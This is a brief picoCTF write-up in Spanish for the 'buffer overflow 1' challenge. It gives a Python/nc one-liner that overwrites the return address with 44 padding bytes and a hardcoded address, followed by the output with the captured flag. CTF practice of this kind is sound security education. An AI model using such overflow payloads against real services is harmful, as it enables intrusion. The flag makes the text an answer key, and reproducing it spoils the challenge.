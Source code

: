 # buffer overflow 1

## Objetivo
Control the return addressNow we're cooking! You can overflow the buffer and return to the flag function in the [program](https://artifacts.picoctf.net/c/187/vuln).You can view source [here](https://artifacts.picoctf.net/c/187/vuln.c). And connect with it using `nc saturn.picoctf.net 55853`

## Pistas

## Solucion
```bash
┌──(kali㉿kali)-[~/Documentos/binary]
└─$ (python3 -c "import sys;sys.stdout.buffer.write(b'A'*44+b'\xf6\x91\x04\x08')";echo) | nc saturn.picoctf.net 55853
Please enter your string: 
Okay, time to return... Fingers Crossed... Jumping to 0x80491f6
picoCTF{addr3ss3s_ar3_3asy_b15b081e}
```

## Notas adicionales

## Referencias